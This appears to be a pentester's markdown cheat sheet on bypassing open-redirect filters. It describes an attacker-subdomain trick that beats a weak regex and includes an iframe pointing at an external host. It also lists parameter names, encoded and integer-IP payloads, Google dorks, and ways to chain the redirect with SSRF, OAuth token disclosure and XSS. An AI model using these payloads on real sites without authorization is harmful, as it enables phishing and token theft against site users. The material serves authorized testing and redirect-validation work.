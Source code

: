 # Open Redirection Bypass Trick:

This bypass I found in a application while I doing pentesting. I hope it will helps you too!

1. While you I trying to redirect https://targetweb.com?url=http://attackersite.com it did not redirected!
2. I Created a new subdomain with with www.targetweb.com.attackersite.com
3. And when I tried to redirect with https://targetweb.com?url=www.targetweb.com.attackersite.com
4. It will successfully redirected to the www.targetweb.com.attackersite.com website!
5. Due to the bad regex it has been successfully bypass their protection!
6. By using Iframe SOP (<iframe sandbox="allow-scripts allow-same-origin" src="http://ruvlolmail.temp.swtest.ru/toplevel.html">)


**Method**

```
* Burp Proxy history & Burp Sitemap (look at URLs with parameters)
* Google dorking. E.g: inurl:redirectUrl=http site:target.com
* Functionalities usually associated with redirects:
	Login, Logout, Register & Password reset pages
	Change site language
	Links in emails
* Read JavaScript code
* Bruteforcing
	Look for hidden redirect parameters, for e.g.:
		/redirect?url={payload}&next={payload}&redirect={payload}&redir={payload}&rurl={payload}&redirect_uri={payload}
		/?url={payload}&next={payload}&redirect={payload}&redir={payload}&rurl={payload}&redirect_uri={payload}

* Try using the same parameter twice:
	 ?next=whitelisted.com&next=google.com
* If periods filtered, use an IPv4 address in decimal notation 
	http://www.geektools.com/geektools-cgi/ipconv.cgi
* Try a double-URL and triple-URL encoded version of payloads
* Try redirecting to an IP address (instead of a domain) using different notations: 
	IPv6, IPv4 in decimal, hex or octal
* For XSS, try replacing alert(1) with prompt(1) & confirm(1)
* If extension checked, 
	try ?image_url={payload}/.jpg
* Try target.com/?redirect_url=.uk (or [any_param]=.uk). 
	If it redirects to target.com.uk, then it’s vulnerable! target.com.uk and target.com are different domains.
* Chaining open redirect with
	SSRF
	OAuth token disclosure
	XSS
	CRLF injection

```
```
*  If The application is filtering HTTPS protocol.
*  If The application is filtering the Host & IP Address.
     http://2899905732 : 2899905732 is the Integer IP representation of google.com’s IP: 142.250.64.100

     The final payload looked like the following:
     https://www.target.com/login?forward=http://2899905732
```

**Common Injection Parameters**

```
/{payload}
?forward={payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}

```



### Authors:
* [@bishal0x01](https://twitter.com/bishal0x01)

### Reference Tweets:
* https://twitter.com/bishal0x01/status/1262021038080053248
